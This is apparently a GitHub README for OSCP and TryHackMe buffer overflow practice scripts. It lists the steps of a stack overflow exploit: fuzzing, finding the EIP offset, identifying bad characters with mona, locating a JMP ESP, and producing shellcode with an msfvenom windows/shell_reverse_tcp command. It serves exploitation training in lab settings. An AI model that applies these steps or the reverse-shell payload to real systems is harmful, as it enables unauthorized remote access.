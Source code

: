 # BufferOverflow
Buffer Overflow Scripts for OSCP and https://www.tryhackme.com/room/bufferoverflowprep


*   Make dir in which files should be copied and execute
    `/opt/bufferOverflow/bash_scripts/prepare.sh`
    TODO: Set prefix

*   Always run Immunity Debugger as Admin in order to see admin services
    Open script and Press F9 to continue (script is paused at the beginning)
*   Execute mona script (not neccessarily needed afaik)
    `!mona config -set workingfolder c:\mona\%p`

*   Find offset that crashes the applications
    `python3 fuzzer.py`

*   Control EIP
    len: Bytes to crash + 400:
    `pattern_create.rb -l <len>`
    Enter payload into payload variable in exploit_1.py
    Re-open immunity debugger & scripts
    `python3 exploit_1.py`
    `!mona findmsp -distance <len>`
    EIP contains normal pattern : ... (offset XXXX)
    <!-- Enter offset in exploit_2.py -->
    Set offset with this script
    `bash_scripts/set-offset.sh`
    Restart imminuity debugger + F9,
    `python3 exploit_2.py`
    verify whether EIP is now 42424242 ("BBBB")

*   Finding Bad Characters (OSCP version)
    Restart immunity debugger + F9
    Enter offset in exploit_3.py
    `python3 exploit_3.py`
    ID: ESP Address - right click - Follow in dump
    Find first bad char in bottom left windows, remove it and repeat

*   Finding a jump point
    Don't need to restart immunity debugger
    `!mona jmp -r esp -cpb "\x00 <AND ALL BAD CHARS>"`
    view -> log
    Pick an address, enter it in exploit_4.py

*   Generate Payload
    `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 EXITFUNC=thread -b "\x00<BAD-CHARS>" –e x86/shikata_ga_nai -f c`
    Enter in payload in exploit_4.py


*   Notes
    *   Could not connect -> F9 to resume the debugger